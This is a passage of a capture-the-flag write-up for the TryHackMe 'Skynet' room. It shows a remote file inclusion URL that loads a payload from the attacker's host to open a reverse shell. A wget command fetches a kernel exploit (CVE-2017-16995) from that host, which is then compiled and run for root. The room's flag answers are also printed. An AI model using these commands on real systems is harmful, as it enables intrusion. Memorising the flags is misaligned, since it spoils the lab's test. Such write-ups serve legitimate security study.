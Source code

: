 Accessing the URL: `http://10.10.19.186/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.5.201:4443/payload.php` gives us a reverse shell. Using this, we can get the user flag:
```shell-session
www-data@skynet:/$ cd /home/milesdyson/
www-data@skynet:/home/milesdyson$ ls
backups
mail
share
user.txt
www-data@skynet:/home/milesdyson$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

> What is the user flag?
>
> Answer: `7ce5c2109a40f958099283600a9ae807`

## Privilege Escalation

```shell-session
www-data@skynet:/home/milesdyson$ uname -a
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```

For this challenge, I'll be making use of [CVE-2017-16995](https://nvd.nist.gov/vuln/detail/CVE-2017-16995), and [this exploit](https://www.exploit-db.com/exploits/45010)

```shell-session
www-data@skynet:/home/milesdyson$ cd /tmp
www-data@skynet:/tmp$ wget http://10.11.5.201:4443/45010.c
...
2022-12-09 13:50:50 (28.2 KB/s) - '45010.c' saved [13728/13728]

www-data@skynet:/tmp$ gcc 45010.c
www-data@skynet:/tmp$ ./a.out
```

The shell is quite unstable now, but it doesn't matter, we can still execute commands and get the root flag:
```shell-session
whoami
root
cat /root/root.txt
3f0372db24753accc7179a282cd6a949
```

> What is the root flag?
>
> Answer: `3f0372db24753accc7179a282cd6a949`


## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Skynet](https://tryhackme.com/room/skynet)
